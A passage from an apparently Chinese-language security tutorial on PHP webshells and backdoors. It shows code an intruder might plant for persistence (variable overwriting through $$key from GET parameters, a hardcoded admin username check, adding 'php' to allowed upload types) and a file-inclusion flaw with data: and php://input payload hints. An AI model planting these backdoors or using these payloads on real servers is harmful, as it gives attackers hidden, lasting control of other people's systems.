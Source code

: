 所以curl并不能作为一个webshell指令执行跳板来使用，而只能作为"一次性代码执行且不需要回显"的场景，即向本地磁盘写一个新的webshell文件

### 0x11: 逻辑后门

```php
<?php
    foreach ($_GET as $key => $value)
    {
        //由攻击者添加
        $$key = $value;
    }
    // ... some code
    if (logged_in() || $authenticated)
    {
        //原有逻辑
        // ... administration area
    }
?>

# 或者增加逻辑
if($user_level==ADMIN || $user_name==’monyer’)
{
    //admin area
}

# 或者增加配置
$allow_upload = array(
             ‘jpg’,’gif’,’png’,
             ‘php’,
        );
```

这和拿到CMS后台，然后修改"可允许上传文件类型"，增加.php的做法类似，这是一种"后门思想"&#x20;

这里的情况是黑客已经控制了服务器的一定控制权，在服务器上留后门，黑客可以手动添加这段代码，人工构造本地变量覆盖漏洞，然后黑客在下次攻击的时候就可以进行变量注入，进而控制原始的代码流&#x20;

在其他的情况下,在代码中，常常在`if()`这样的关键跳的位置根据变量进行代码流向判断，而如果应用系统存在任意变量覆盖漏洞，就有可能导致系统本地原本的变量被覆盖，进而导致代码流被黑客控制

### 0x12: LFI导致的代码执行

```php
<?php
    $to_include = $_GET['file'];
    require_once($to_include);
?>

##  这种LFI可能导致黑客将文件包含漏洞升级为代码执行漏洞
##  http://localhost/shell/index.php?file=data:text/plain,
##  http://tools.ietf.org/html/rfc2397
##  data:[][;base64],或者
##  eval(file_get_contents('php://input'));  
```

**Relevant Link:**

